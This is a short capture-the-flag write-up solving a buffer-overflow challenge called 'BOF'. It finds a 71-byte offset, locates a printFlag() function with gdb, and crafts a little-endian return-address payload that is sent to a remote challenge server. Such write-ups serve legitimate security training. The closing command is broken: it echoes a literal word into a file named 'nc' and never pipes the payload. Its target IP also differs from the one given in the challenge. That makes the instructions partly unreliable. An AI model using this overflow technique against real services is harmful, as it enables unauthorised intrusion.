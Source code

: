 # BOF
## Pwn

> Is the key the key?
>
> nc 159.89.194.7 1342

### Files
- bofez

### Analysis
The file provided is a linux binary for participants to test locally
The challenge name suggests that they should attempt a Buffer Overflow exploit.

### Solution
1. Finding the offset
   ```console
   root@mctf:~$ ./bofez
   ```
   Spam "A"s as input until there is a segmentation fault<br />
   In this challenge, the offset was 71
2. Finding the flag
   Upon disassembling the binary, the printFlag() function can be seen<br />
   ```console
   root@mctf:~$ gdb bofez
   ```
   To find the memory address of the printFlag() function, use ```info functions```<br />
   > printFlag() : 0x401192
3. Convert the memory address
   Convert the hexadecimal memory address to Little-Endian format<br />
   > \x92\x11\x40
4. Crafting the payload
   With the offset and memory address of the printFlag() function, craft the payload<br />
   ```console
   root@mctf:~$ python -c "print 'A' * 71 + '\x92\x11\x40'" > payload
   ```
   ```console
   root@mctf:~$ echo payload > nc 128.199.77.173 1342
   ```
